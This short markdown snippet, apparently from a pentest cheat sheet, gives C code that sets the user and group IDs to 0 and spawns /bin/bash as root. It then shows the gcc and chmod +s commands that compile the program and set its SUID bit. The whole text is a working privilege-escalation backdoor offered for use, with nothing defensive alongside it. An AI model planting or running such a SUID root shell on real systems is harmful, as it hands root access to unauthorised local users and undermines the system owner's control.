 # General



### C code that spawns a root shell

To be ran as `sudo` or with `SUID` bit

`shell.c`

```c
int main(){
 setgid(0); // set gid=0
 setuid(0); // set uid=0
 system("/bin/bash"); // spawns a shell as root
 return 0;
}
```

Compile with `gcc`, and relevant flags:

```bash
$ gcc shell.c -o shell
$ chmod +s shell
```
